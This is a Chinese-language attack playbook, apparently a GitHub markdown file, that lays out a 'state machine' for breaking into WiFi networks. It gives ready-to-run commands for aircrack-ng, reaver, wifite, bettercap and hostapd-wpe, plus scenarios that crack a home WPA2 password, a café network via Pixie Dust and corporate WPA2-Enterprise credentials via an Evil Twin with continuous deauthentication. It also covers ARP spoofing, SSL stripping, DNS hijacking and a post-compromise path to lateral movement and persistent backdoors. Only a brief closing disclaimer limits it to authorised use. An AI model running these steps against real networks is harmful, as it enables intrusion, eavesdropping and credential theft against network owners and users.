

# WiFi 攻击状态机 (WiFi Attack State Machine)

## 概述

WiFi 攻击是无线网络渗透测试的核心技术，目标是破解 WiFi 密码、劫持流量、进行中间人攻击等。本状态机覆盖 WPA/WPA2/WPA3、WPS、Evil Twin 等主流攻击技术。

---

## 原子工具状态映射

### 1. aircrack-ng - WiFi 破解套件核心

**能干什么**：
WiFi 破解的瑞士军刀，包含抓包、注入、破解等完整工具链，支持 WEP、WPA/WPA2-PSK 破解。

**触发状态**：
- 需要破解 WiFi 密码
- 已捕获 WPA 握手包
- 需要进行无线网络渗透测试

**核心参数**：
```bash
# 破解 WPA/WPA2 握手包
aircrack-ng -w /usr/share/wordlists/rockyou.txt -b AA:BB:CC:DD:EE:FF capture.cap

# 指定 ESSID
aircrack-ng -w wordlist.txt -e "TargetWiFi" capture.cap

# 使用多个 CPU 核心
aircrack-ng -w wordlist.txt capture.cap -p 4

# 显示破解进度
aircrack-ng -w wordlist.txt capture.cap -l output.txt
```

**实战直觉**：
- 必须先捕获完整的 4-way 握手包
- 破解速度取决于字典大小和 CPU 性能
- 弱密码（8 位数字）通常几分钟内破解
- 强密码可能需要几天甚至几年
- rockyou.txt 是最常用的字典

**状态转移**：
```
破解成功 → 连接 WiFi 进行内网渗透
破解失败 → 尝试 WPS 攻击或 Evil Twin
握手包不完整 → 重新捕获握手包
```

---

### 2. airodump-ng - WiFi 扫描与抓包

**能干什么**：
扫描周围的 WiFi 网络，捕获数据包，监控客户端连接，抓取 WPA 握手包。

**触发状态**：
- 需要扫描周围的 WiFi 网络
- 需要捕获 WPA 握手包
- 需要监控特定 AP 的客户端

**核心参数**：
```bash
# 扫描所有 WiFi 网络
airodump-ng wlan0mon

# 锁定特定 AP 并捕获握手包
airodump-ng -c 6 -b AA:BB:CC:DD:EE:FF --write capture wlan0mon

# 只扫描 2.4GHz 频段
airodump-ng --band bg wlan0mon

# 只扫描 5GHz 频段
airodump-ng --band a wlan0mon

# 显示客户端详细信息
airodump-ng -c 6 -b AA:BB:CC:DD:EE:FF --output-format pcap,csv --write capture wlan0mon
```

**实战直觉**：
- PWR 值越高，信号越强，越容易攻击
- CH 是信道，锁定后可以提高抓包效率
- #Data 是数据包数量，越多越好
- WPA handshake 出现说明成功捕获握手包
- 看到 EAPOL 消息说明有握手包流量

**状态转移**：
```
捕获到握手包 → 使用 aircrack-ng 破解
未捕获握手包 → 使用 aireplay-ng 发送 deauth
发现 WPS 开启 → 使用 reaver 攻击
信号太弱 → 更换位置或使用定向天线
```

---

### 3. aireplay-ng - WiFi 数据包注入

**能干什么**：
向 WiFi 网络注入数据包，强制客户端断开连接（deauth 攻击），加速握手包捕获。

**触发状态**：
- 需要捕获 WPA 握手包但没有客户端连接
- 需要强制客户端重新连接
- 需要测试 WiFi 网络的抗攻击能力

**核心参数**：
```bash
# Deauth 攻击（强制断开所有客户端）
aireplay-ng --deauth 10 -a AA:BB:CC:DD:EE:FF wlan0mon

# Deauth 攻击（针对特定客户端）
aireplay-ng --deauth 10 -a AA:BB:CC:DD:EE:FF -c 11:22:33:44:55:66 wlan0mon

# 持续 Deauth 攻击
aireplay-ng --deauth 0 -a AA:BB:CC:DD:EE:FF wlan0mon

# 测试注入能力
aireplay-ng --test wlan0mon

# Fake authentication（WEP 攻击）
aireplay-ng --fakeauth 0 -a AA:BB:CC:DD:EE:FF -h 00:11:22:33:44:55 wlan0mon
```

**实战直觉**：
- Deauth 攻击会强制客户端断开并重新连接，此时可以捕获握手包
- `--deauth 10` 发送 10 个 deauth 包，通常足够
- `--deauth 0` 是持续攻击，用于 DoS 测试
- 针对特定客户端的 deauth 更隐蔽
- 注入失败？检查网卡是否支持注入模式

**状态转移**：
```
Deauth 成功 → 客户端重连 → 捕获握手包
注入失败 → 检查网卡驱动或更换网卡
客户端未重连 → 增加 deauth 包数量
```

---

### 4. reaver - WPS PIN 破解

**能干什么**：
暴力破解 WPS PIN 码，成功后自动获取 WPA/WPA2 密码，无需捕获握手包。

**触发状态**：
- 目标 AP 开启了 WPS 功能
- 握手包破解失败或耗时太长
- 需要快速获取 WiFi 密码

**核心参数**：
```bash
# 基础 WPS 攻击
reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -vv

# 指定信道
reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -c 6 -vv

# 使用 Pixie Dust 攻击（更快）
reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -K -vv

# 设置延迟（避免 AP 锁定）
reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -d 5 -vv

# 恢复之前的会话
reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -vv -s /tmp/reaver.session
```

**实战直觉**：
- WPS PIN 只有 8 位数字，理论上最多 11000 次尝试
- Pixie Dust 攻击利用 WPS 实现漏洞，几秒钟内破解
- 很多 AP 会在多次失败后锁定 WPS（1-24 小时）
- `-d` 参数设置延迟可以避免触发锁定
- 成功后会显示 WPA PSK（密码）

**状态转移**：
```
Pixie Dust 成功 → 获得 WPA 密码
暴力破解成功 → 获得 WPA 密码
AP 锁定 WPS → 等待解锁或转向其他攻击
WPS 关闭 → 转向握手包破解
```

---

### 5. wifite - 自动化 WiFi 攻击

**能干什么**：
全自动 WiFi 攻击工具，整合 aircrack-ng、reaver 等工具，自动扫描、攻击、破解。

**触发状态**：
- 需要快速攻击多个 WiFi 网络
- 不熟悉手动攻击流程
- 需要批量测试 WiFi 安全性

**核心参数**：
```bash
# 自动攻击所有网络
wifite

# 只攻击 WPA 网络
wifite --wpa

# 只攻击 WPS 网络
wifite --wps

# 指定字典文件
wifite --dict /usr/share/wordlists/rockyou.txt

# 只攻击特定 ESSID
wifite --essid "TargetWiFi"

# 设置攻击时间限制
wifite --crack-time 60

# 使用 Pixie Dust 攻击
wifite --wps-only --pixie
```

**实战直觉**：
- 适合新手，自动化程度高
- 会自动选择最佳攻击方式（WPS、握手包、PMKID）
- 攻击成功后会保存密码到文件
- 可以同时攻击多个目标
- 比手动攻击慢，但更稳定

**状态转移**：
```
攻击成功 → 获得密码并保存
攻击失败 → 尝试其他目标或手动攻击
```

---

### 6. bettercap - 中间人攻击平台

**能干什么**：
强大的中间人攻击工具，支持 ARP 欺骗、DNS 劫持、SSL 剥离、流量嗅探等。

**触发状态**：
- 已连接到目标 WiFi 网络
- 需要拦截其他客户端的流量
- 需要进行钓鱼攻击

**核心参数**：
```bash
# 启动 bettercap
bettercap -iface wlan0

# 扫描网络中的主机
net.probe on
net.show

# ARP 欺骗攻击（针对所有主机）
set arp.spoof.targets 192.168.1.0/24
arp.spoof on

# ARP 欺骗攻击（针对特定主机）
set arp.spoof.targets 192.168.1.100
arp.spoof on

# 启用 HTTP/HTTPS 嗅探
set net.sniff.verbose true
net.sniff on

# DNS 劫持
set dns.spoof.domains example.com
dns.spoof on

# SSL 剥离
set http.proxy.sslstrip true
http.proxy on

# 保存捕获的凭据
set http.proxy.script /usr/share/bettercap/caplets/http-req-dump.js
```

**实战直觉**：
- 必须先连接到目标 WiFi 网络
- ARP 欺骗会让你成为网关，所有流量经过你
- SSL 剥离可以降级 HTTPS 到 HTTP
- 可以捕获明文密码、Cookie、表单数据
- 现代浏览器的 HSTS 可以防御 SSL 剥离

**状态转移**：
```
ARP 欺骗成功 → 开始嗅探流量
捕获到凭据 → 记录并分析
SSL 剥离成功 → 捕获 HTTPS 流量
```

---

### 7. hostapd-wpe - Evil Twin 攻击

**能干什么**：
创建伪造的 WiFi 热点（Evil Twin），诱导用户连接，捕获 WPA 握手包或凭据。

**触发状态**：
- 握手包破解失败
- 需要获取用户凭据
- 需要进行钓鱼攻击

**核心参数**：
```bash
# 配置文件示例 /etc/hostapd-wpe/hostapd-wpe.conf
interface=wlan0
driver=nl80211
ssid=FreeWiFi
channel=6
hw_mode=g
wpa=2
wpa_key_mgmt=WPA-EAP
wpa_pairwise=CCMP
auth_algs=3
eap_server=1
eap_user_file=/etc/hostapd-wpe/hostapd-wpe.eap_user

# 启动 Evil Twin AP
hostapd-wpe /etc/hostapd-wpe/hostapd-wpe.conf

# 配置 DHCP 服务器
dnsmasq -C /etc/dnsmasq.conf -d

# 启用 IP 转发
echo 1 > /proc/sys/net/ipv4/ip_forward

# 配置 NAT
iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```

**实战直觉**：
- Evil Twin 是伪造的 AP，SSID 与目标相同
- 用户连接后会尝试认证，此时可以捕获凭据
- 需要配合 deauth 攻击强制用户重连
- 可以捕获 WPA 握手包或企业网络的凭据
- 需要提供互联网访问以提高成功率

**状态转移**：
```
用户连接 Evil Twin → 捕获握手包或凭据
捕获到凭据 → 破解或直接使用
用户未连接 → 增强信号或调整配置
```

---

## 聚类攻击状态机

### WiFi 攻击决策流程

```
开始 WiFi 攻击
    ↓
启动监听模式
    airmon-ng start wlan0
    ↓
扫描周围 WiFi 网络
    airodump-ng wlan0mon
    ↓
选择目标 AP
    ↓
IF AP 开启 WPS:
    THEN 尝试 Pixie Dust 攻击
        reaver -i wlan0mon -b <BSSID> -K -vv
        IF 成功:
            THEN 获得 WPA 密码 → 连接 WiFi
        ELSE:
            THEN 尝试暴力破解 WPS PIN
                reaver -i wlan0mon -b <BSSID> -d 5 -vv
                IF AP 锁定:
                    THEN 等待解锁或转向握手包攻击

ELSE IF AP 是 WPA/WPA2:
    THEN 捕获握手包
        airodump-ng -c <CH> -b <BSSID> --write capture wlan0mon
        
        IF 有客户端连接:
            THEN 发送 deauth 强制重连
                aireplay-ng --deauth 10 -a <BSSID> wlan0mon
        ELSE:
            THEN 等待客户端连接或使用 Evil Twin
        
        IF 捕获到握手包:
            THEN 使用字典破解
                aircrack-ng -w rockyou.txt -b <BSSID> capture.cap
                IF 破解成功:
                    THEN 获得密码 → 连接 WiFi
                ELSE IF 字典不够:
                    THEN 使用更大的字典或生成自定义字典
                ELSE:
                    THEN 转向 Evil Twin 攻击

ELSE IF 握手包破解失败:
    THEN 创建 Evil Twin AP
        配置 hostapd-wpe
        启动伪造 AP
        发送 deauth 强制用户重连
        IF 用户连接 Evil Twin:
            THEN 捕获新的握手包或凭据
                → 破解或直接使用

IF 成功连接 WiFi:
    THEN 进行内网渗透
        扫描内网主机（nmap）
        ARP 欺骗（bettercap）
        嗅探流量
        横向移动
```

---

## 场景决策链路

### 场景 1：WPA2 握手包破解

**初始状态**：
- 目标：家用 WiFi "HomeNetwork"
- 加密：WPA2-PSK
- 目标：破解密码并连接

**状态机运行路径**：

1. **启动监听模式**
```bash
airmon-ng check kill
airmon-ng start wlan0
```

2. **扫描 WiFi 网络**
```bash
airodump-ng wlan0mon

BSSID              PWR  CH  ENC  ESSID
AA:BB:CC:DD:EE:FF  -45   6  WPA2 HomeNetwork
```

**内化点**：目标在信道 6，信号强度 -45（很好）。

3. **锁定目标并捕获握手包**
```bash
airodump-ng -c 6 -b AA:BB:CC:DD:EE:FF --write capture wlan0mon
```

4. **发送 deauth 强制客户端重连**
```bash
# 新终端
aireplay-ng --deauth 10 -a AA:BB:CC:DD:EE:FF wlan0mon
```

5. **等待握手包**
```
[ CH  6 ][ Elapsed: 1 min ][ 2026-03-22 10:30 ][ WPA handshake: AA:BB:CC:DD:EE:FF
```

**内化点**：看到 "WPA handshake" 说明成功捕获。

6. **破解握手包**
```bash
aircrack-ng -w /usr/share/wordlists/rockyou.txt -b AA:BB:CC:DD:EE:FF capture-01.cap

KEY FOUND! [ password123 ]
```

**结果**：成功破解密码 "password123"

**内化点**：
- 弱密码通常几分钟内破解
- 握手包必须完整（4-way handshake）
- 为什么不用 WPS？因为目标 AP 未开启 WPS

---

### 场景 2：WPS Pixie Dust 攻击

**初始状态**：
- 目标：咖啡店 WiFi "CafeWiFi"
- 加密：WPA2-PSK + WPS 开启
- 目标：快速获取密码

**状态机运行路径**：

1. **启动监听模式**
```bash
airmon-ng start wlan0
```

2. **扫描并确认 WPS 开启**
```bash
wash -i wlan0mon

BSSID              CH  RSSI  WPS  ESSID
BB:CC:DD:EE:FF:00   1  -50   2.0  CafeWiFi
```

**内化点**：WPS 版本 2.0，可以尝试 Pixie Dust。

3. **执行 Pixie Dust 攻击**
```bash
reaver -i wlan0mon -b BB:CC:DD:EE:FF:00 -K -vv

[+] WPS PIN: '12345670'
[+] WPA PSK: 'CafePassword2024'
[+] AP SSID: 'CafeWiFi'
```

**结果**：几秒钟内获得密码 "CafePassword2024"

**内化点**：
- Pixie Dust 利用 WPS 实现漏洞，速度极快
- 不是所有 AP 都存在此漏洞
- 为什么不用握手包破解？因为 WPS 攻击更快

---

### 场景 3：Evil Twin 钓鱼攻击

**初始状态**：
- 目标：企业 WiFi "CorpWiFi"
- 加密：WPA2-Enterprise（无法用字典破解）
- 目标：获取用户凭据

**状态机运行路径**：

1. **扫描目标网络**
```bash
airodump-ng wlan0mon

BSSID              CH  ENC       ESSID
CC:DD:EE:FF:00:11   6  WPA2-EAP  CorpWiFi
```

**内化点**：WPA2-Enterprise 需要用户名和密码，无法用字典破解。

2. **配置 Evil Twin AP**
```bash
# 编辑 /etc/hostapd-wpe/hostapd-wpe.conf
interface=wlan0
ssid=CorpWiFi
channel=6
wpa=2
wpa_key_mgmt=WPA-EAP
```

3. **启动 Evil Twin**
```bash
hostapd-wpe /etc/hostapd-wpe/hostapd-wpe.conf
```

4. **发送 deauth 强制用户重连**
```bash
# 新终端
aireplay-ng --deauth 0 -a CC:DD:EE:FF:00:11 wlan0mon
```

5. **等待用户连接**
```
[+] EAP Identity: john.doe@corp.com
[+] Challenge: 1a2b3c4d...
[+] Response: 5e6f7g8h...
```

**内化点**：捕获到用户名和 Challenge-Response。

6. **破解 Challenge-Response**
```bash
# 使用 asleap 或 hashcat 破解
hashcat -m 5500 challenge_response.txt rockyou.txt
```

**结果**：获得用户凭据

**内化点**：
- Evil Twin 适合企业网络
- 需要提供互联网访问以提高成功率
- 为什么不用握手包？因为 WPA2-Enterprise 无法用字典破解

---

## 思维判定流程图

### WiFi 攻击决策流程图



---

## 工具选择决策表

| 场景 | 首选工具 | 备选工具 | 选择理由 |
|------|---------|---------|---------|
| **WPA/WPA2 破解** | aircrack-ng | wifite | 最经典的破解工具 |
| **WPS 攻击** | reaver | bully | Pixie Dust 支持好 |
| **握手包捕获** | airodump-ng | wifite | 功能强大稳定 |
| **Deauth 攻击** | aireplay-ng | mdk4 | 注入成功率高 |
| **自动化攻击** | wifite | fluxion | 适合新手 |
| **中间人攻击** | bettercap | ettercap | 功能更现代 |
| **Evil Twin** | hostapd-wpe | fluxion | 企业网络攻击 |

---

## 常见 WiFi 攻击向量速查

| 攻击类型 | 适用场景 | 成功率 | 耗时 |
|---------|---------|--------|------|
| WPS Pixie Dust | WPS 开启且有漏洞 | ⭐⭐⭐⭐⭐ | 几秒 |
| WPS 暴力破解 | WPS 开启但无漏洞 | ⭐⭐⭐ | 几小时 |
| 握手包 + 弱密码 | WPA/WPA2-PSK | ⭐⭐⭐⭐ | 几分钟 |
| 握手包 + 强密码 | WPA/WPA2-PSK | ⭐⭐ | 几天/几年 |
| Evil Twin | 任何加密类型 | ⭐⭐⭐⭐ | 取决于用户 |
| PMKID 攻击 | WPA/WPA2-PSK | ⭐⭐⭐⭐ | 无需客户端 |
| WEP 破解 | WEP 加密（已过时） | ⭐⭐⭐⭐⭐ | 几分钟 |

---

## WiFi 攻击后的下一步

```
成功连接 WiFi
    ↓
    ├─ 内网扫描:
    │   ├─ nmap 扫描内网主机
    │   ├─ 发现 SMB/RDP/SSH 服务
    │   └─ 识别网关和 DNS 服务器
    │
    ├─ 中间人攻击:
    │   ├─ bettercap ARP 欺骗
    │   ├─ 嗅探 HTTP/HTTPS 流量
    │   ├─ DNS 劫持
    │   └─ SSL 剥离
    │
    ├─ 凭据收集:
    │   ├─ 捕获明文密码
    │   ├─ 窃取 Cookie
    │   ├─ 拦截 API 密钥
    │   └─ 钓鱼攻击
    │
    └─ 横向移动:
        ├─ 攻击内网主机
        ├─ 提权到域管
        ├─ 访问敏感资源
        └─ 建立持久化后门
```

---

## 网卡兼容性说明

### 推荐的 WiFi 网卡

| 网卡型号 | 芯片组 | 监听模式 | 注入模式 | 5GHz | 推荐度 |
|---------|--------|---------|---------|------|--------|
| Alfa AWUS036NHA | Atheros AR9271 | ✅ | ✅ | ❌ | ⭐⭐⭐⭐⭐ |
| Alfa AWUS036ACH | Realtek RTL8812AU | ✅ | ✅ | ✅ | ⭐⭐⭐⭐⭐ |
| TP-Link TL-WN722N v1 | Atheros AR9271 | ✅ | ✅ | ❌ | ⭐⭐⭐⭐ |
| Panda PAU09 | Ralink RT5372 | ✅ | ✅ | ❌ | ⭐⭐⭐⭐ |

**注意**：
- v1 版本通常支持注入，v2/v3 可能不支持
- 内置网卡通常不支持监听/注入模式
- 购买前确认芯片组型号

---

## 法律与道德声明

**重要提醒**：
- 只能在授权的网络上进行测试
- 未经授权攻击他人 WiFi 是违法行为
- 本文档仅用于安全研究和教育目的
- 使用这些技术需要遵守当地法律法规

---

*文档生成时间：2026-03-22*
*状态机类型：WiFi 攻击*
*覆盖技术：WPA/WPA2/WPA3、WPS、Evil Twin*
